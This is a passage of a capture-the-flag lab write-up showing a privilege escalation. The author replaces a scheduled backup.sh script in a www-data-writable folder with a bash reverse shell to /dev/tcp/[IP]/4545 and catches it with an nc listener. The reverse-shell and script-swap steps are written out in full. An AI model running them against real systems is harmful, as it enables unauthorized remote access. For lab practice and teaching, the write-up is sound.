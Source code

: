 - First: Find something related to **plot_admin**
```
find / -type f -user plot_admin 2> /dev/null
```
**Result**
```
/var/www/scripts/backup.sh
/home/plot_admin/.bashrc
/home/plot_admin/.bash_logout
/home/plot_admin/user.txt
/home/plot_admin/.profile
```
**plot_admin** runs a script **backup.sh**. Let's check this script
```
$ cat /var/www/scripts/backup.sh
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```
Unfortunatelly, we cannot change the script content. But we can do something inside the folder **scripts**
```
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
$ cd /var/www/
$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Oct 28 10:26 .
drwxr-xr-x 14 root     root     4096 Oct 28 07:07 ..
drwxr-xr-x  4 root     root     4096 Oct 28 09:18 html
drwxr-xr-x  2 www-data www-data 4096 Oct 28 09:10 scripts
$ cd scripts
$ ls -la
total 12
drwxr-xr-x 2 www-data   www-data   4096 Oct 28 09:10 .
drwxr-xr-x 4 root       root       4096 Oct 28 10:26 ..
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28 09:10 backup.sh
```
We can create our own script and chenge with the current.
- First: Create the new script
```
$ echo "bash -c 'exec bash -i &>/dev/tcp/[IP]/4545 <&1'" > MyScript.sh
$ ls -la
total 16
drwxr-xr-x 2 www-data   www-data   4096 Apr 23 18:34 .
drwxr-xr-x 4 root       root       4096 Oct 28 10:26 ..
-rw-rw-rw- 1 www-data   www-data     55 Apr 23 18:34 MyScript.sh
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28 09:10 backup.sh
```
- Second : Start a listener wi th the appropriate PORT. Here **4545**
```
nc -nlvp 4545
```
- Third : Rename the current **backup.sh** , rename the new script as **backup.sh** and give the appropriate rights
```
$ mv backup.sh original_backup.sh && mv MyScript.sh backup.sh && chmod +x backup.sh
$ ls -la
total 16
drwxr-xr-x 2 www-data   www-data   4096 Apr 23 18:38 .
drwxr-xr-x 4 root       root       4096 Oct 28 10:26 ..
-rwxrwxrwx 1 www-data   www-data     55 Apr 23 18:34 backup.sh
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28 09:10 original_backup.sh
```
- Fourth: wait few seconds
```
nc -nlvp 4545
```